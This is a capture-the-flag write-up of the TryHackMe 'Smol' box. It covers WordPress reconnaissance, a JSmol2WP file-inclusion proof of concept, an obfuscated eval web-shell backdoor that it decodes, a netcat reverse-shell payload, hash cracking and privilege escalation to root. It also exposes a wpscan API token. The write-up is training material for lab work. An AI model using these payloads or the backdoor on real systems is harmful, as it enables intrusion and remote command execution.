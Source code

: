 # Write-up: **Smol**
[Smol](https://tryhackme.com/r/room/smol) is a medium-ranked CTF box that introduces us to vulnerable Wordpress plugins, highlighting the need for webmasters to keep dependencies up-to-date and to consider source and reputation of external packages. The vulnerable webpage allows the execution of malicious code, which gives the opportunity to gain a foothold on the system. Ultimately, root access is obtained through a combination of misconfigurations and poorly managed passwords.

## Reconaissance
As usual, our first step is to scan the victim's machine for open ports and identify services that are being offered. Using `nmap`, we scan the 1000 most popular ports.
```
nmap -sV smol.thm
```
As the result shows us, two ports are open, one offering SSH and the other an Apache webserver.
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

When we try to visit the website offered on port 80, we are being redirected to `www.smol.thm`, a domain that is unknown to our DNS server. Subsequently, we add the domain to our `/etc/hosts` file, allowing us to finally see the page.

![Initial view of webpage](img/Smol-InitialWebpage.png)

As we can see on the bottom-right of the page, the website is powered by the Wordpress framework. Therefore we can use `wpscan` to gather more information. Registering on [WPScan's website](https://wpscan.com/) allows you to additionally make use of API tokens, which enables `wpscan` to access the WordPress Vulnerability Database, basically allowing your scan to automatically detect vulnerable plugins and themes. Using the free-plan, one receives 25 tokens per day.
```
wpscan --url www.smol.thm --api-token WEHKBQUrGbrJWLv7F7yWCJoZkARqtYlh1DDnsZ46n6E
```
Among others, we are able to identify the follwing vulnerability in the JSmol2WP plugin, that allows us to manipulate server-sided requests, which can potentially be elevated to a LFI.
```
 | [!] Title: JSmol2WP <= 1.07 - Unauthenticated Server Side Request Forgery (SSRF)
 |     References:
 |      - https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20463
 |      - https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E5%8F%8D%E5%B0%84%E6%80%A7XSS
```
Following up the first reference, we find a proof of concept, allegedly allowing us to include files of the server into the rendered webpage.
```
http://localhost:8080/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

## Establishing a Foothold
Executing the PoC (*of course after having exchanged domain and port*) yields an interesting finding, since we can see the credentials of the MySQL user that is used by Wordpress.
```
/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', -REDACTED- );
```
If the developers that set up the server were prudent, they of course did not reuse those credentials for an actual user of the Wordpress blog. But were they? Since we can't directly navigate to the login page, we just open the blog article about RCEs and try to comment under it, which will redirect us to the login. And in fact, we can succesfully authenticate with the credentials that we just found.

We proceed to the admin section by clicking on the profile picture on the top-right of the page. There we can see that our user does not have an administrator role, since we can't see the user managament and plugins menu sections. On the other hand, we do have some kind of higher privilege, since we are able to maintain an internal page written by the administrator, listing his tasks.

![Internal wordpress page listing the webmaster's tasks](img/Smol-InternalPage.png)

Wait, hold up! The webmaster is talking about a backdoor in the "Hello Dolly" plugin? Wouldn't it be nice to inspect the content of this plugin, to see if the backdoor really does exist and how to make use of it? But since we're not administrators, we can't manage the Wordpress plugins and read their code - But we already have found a LFI, we just need to know where plugins are located and how they are structured.

Since Wordpress is a well-known and open-source framework, we can easily find out that plugins are located under `/wp-content/plugin/`. Digging a little deeper into the plugin "Hello Dolly", a minimalistic plugin for inserting little phrases into the webpage, we can also find out that this plugin is delivered as a single file, named `hello.php`. Let's include this file, as we did earlier with `wp-config.php` in the reconaissance stage.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php
```

In it, we find the following suspicious line of code, that the run every time the plugin is invoked.

```
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

A line of code is added to `hello.php` by the `eval` statement, which is obfuscated by base64 encoding. Let's decode the line.

```
echo CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA= | base64 -d
```

> if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }

Interpreting the combination of octal and hexadecimal literals in the strings, we see that the existence of the GET parameter `cmd` is checked; if it exists, its value is being executed. We found ourselves a RCE!

Trying to invoke the backdoor by directly calling the `hello.php` script leads to an internal server error, which requires us to specify the `cmd` parameter on any other page that includes the "Hello Dolly" plugin functionality. This is for example the case on our profile page. Let's try a simple PoC.

```
http://www.smol.thm/wp-admin/profile.php?cmd=id
```

![Proof of concept for the remote code execution](img/Smol-RCE-PoC.png)

The following command allows us to establish a reverse shell. Of course, we have to listen on port 4444.

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc {Your IP} 4444 > /tmp/f
```

We URL encode it and append it to the blog's url, which gives us the final payload.

```
http://www.smol.thm/wp-admin/profile.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20{Your IP}%204444%20%3E%2Ftmp%2Ff
```

## Privilege Escalation
As we saw earlier, we're the `www-data` user. We can see that there exist four other users on the system, `diego`, `gege`, `think` and `xavi`. Unfortunately, we can't access any of their home folders. At this point, one can facilitate the machine enumeration by using scripts such as [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) to find a possibility for privilege escalation. For this machine, no extensive enumeration is required because we can easily find an interesting backup file, `wp_backup.sql`, under `/opt`, obviously a backup of some or all of the Wordpress data. This could be very helpful, since it potentially contains password hashes and other useful information. To inspect the file's content, one can copy the backup file to the web root (`/var/www/wordpress`), to then just download it with the browser.

In the file we can see the restoration routine for the user table. We find six password hashes, whereby one password hash probably correlates with the password for `wpuser` that we already know. We copy the hashes into a file, which can be processed by John for cracking.

```
admin:-REDACTED HASH-
wpuser:-REDACTED HASH-
think:-REDACTED HASH-
gege:-REDACTED HASH-
diego:-REDACTED HASH-
xavi:-REDACTED HASH-
```

We can then try to crack the hashes with John with the following command, using `rockyou.txt` as wordlist.

```
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

After a while, we can see that John was able to crack two of the six passwords and we obtain passwords for `diego` and `gege`. The latter seems to have been changed in the past, since we can't use it to log into Wordpress or the local account. The credentials of `diego` on the other hand let's us login as him with `su diego`. In our new home folder, we find the `user.txt` flag.

Since all the four users are part of the group `internal`, we can enumerate the other user's home folders. We can see that `think` has an `.ssh` folder which contains a private and readable SSH key. And in fact, this private key allows us to logon to the machine as `think` via SSH.

At this point I actually loaded `linPEAS` onto the machine, since I got stuck. After extensive analysis and having eliminated a few false-positives (e.g. a 95% attack vector kernel exploit, which turned out to be not applyable) I redeemed the second hint of this room, indicating that `linPEAS` itself doesn't find the vulnerability, but indicates it, by prompting the user to check some things himself. After more search, I found that `linPEAS` can't use `su` to try logging in passwordless as another user, strongly suggesting to do it manually. It turns out that the user `think` can passwordless login as user `gege`. This step in the privilege escalation demonstrates, that solutions do not always need to be complex and that a penetration tester has to work thorough, even though some vectors appear to obvious and stupid to him.

In the home directory of the user `gege`, we find (or already found) a compressed backup of the whole Wordpress web directory, at least this is what the file's name indicates. Prior, we didn't have read access to the file but are now able to unzip it. When doing so, we are prompted for a password. In fact, we aready found one of the user's old passwords. If we are lucky, the time of the backup's creation and the active use of the password collide. And so it does!

Inspecting the content of the unzipped archive, we should immediately inspect the `wp-config.php` file, since the provided password may differ to the one we already found earlier. In this version of the file, it seems that the user `xavi` temporarily setup the DB access with his private credentials, giving us another password to try. As user `gege`, we can climb another rung by using `su xavi` and the newly found password.

The last step is fairly obvious, since the user `xavi` is allowed to run every command with `sudo`, as `sudo -l` tells us. `sudo -s` quickly gives us a root shell and allows us to retrieve the `root.txt` flag.

## Conclusion
I hope you had as much fun as I had hacking this box and that this write-up could give you some insights. The box taught me to remain thorough in my approach, which is a valuable lesson. Thanks to [josemlwdf](https://tryhackme.com/r/p/josemlwdf) for creating this room.
